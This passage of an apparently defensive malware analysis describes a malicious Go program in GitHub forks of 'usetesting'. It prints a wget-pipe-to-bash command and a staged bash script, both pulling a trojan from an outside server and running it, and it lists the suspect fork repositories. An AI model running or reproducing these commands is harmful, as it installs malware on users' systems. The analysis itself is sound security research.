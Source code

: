 The working program on [Go playground](https://go.dev/play/p/cIG7Uw9k1sz) outputs:

```stdout
/bin/sh -c wget -O - https://metalomni.space/storage/de373d0df/a31546bf | /bin/bash &
```

Given at this, the malicions function `TlaOAE`:

- Downloads the script `a31546bf` from an external server `wget -O`
- Executes the downloaded script without any verification in the background `/bin/bash &`.

The script `a31546bf` has the following content:

```sh
#!/bin/bash

cd ~
if [[ "$OSTYPE" == "linux-gnu"* ]]; then
	if ! [ -f ./f0eee999 ]; then
		sleep 3600
		wget https://metalomni.space/storage/de373d0df/f0eee999
		chmod +x ./f0eee999
		app_process_id=$(pidof f0eee999)
		if [[ -z $app_process_id ]]; then
			./f0eee999
		fi
	fi
fi
```

The script is designed to run on Linux systems, which are typical for developers.
It downloads `f0eee999` file to the user's home directory and runs it.
This behavior is typical of malicious scripts that aim to download and execute potentially harmful software on a user's system.

The file `f0eee999` is a kind of trojan, with a size of 9.9M.
It can be found and investigated on [VirusTotal](https://www.virustotal.com/gui/file/b0d20a3dcb937da1ddb01684f6040bdbb920ac19446364e949ee8ba5b50a29e4).

{{< figure src="/img/2025-02-28-malicious-go-programs/trojan-virustotal.png" width="80%" caption="VirusTotal scan results for the trojan `f0eee999`" >}}

## Other malicious programs

Next, I looked at users who forked `ultimatepate/usetesting`:

{{< details summary="*Click to view the full list of forked repositories from `ultimatepate/usetesting`*" >}}

- https://github.com/smugminiskirt/usetesting
- https://github.com/snappyconstit/usetesting
- https://github.com/snivelingclo/usetesting
- https://github.com/snoopymilks/usetesting
- https://github.com/softcarnation/usetesting
- https://github.com/soggyrefere/usetesting
- https://github.com/someinnocen/usetesting
- https://github.com/soulfulcoil/usetesting
- https://github.com/soupyresiden/usetesting
- https://github.com/Spanishaccu/usetesting
- https://github.com/sparklingadv/usetesting
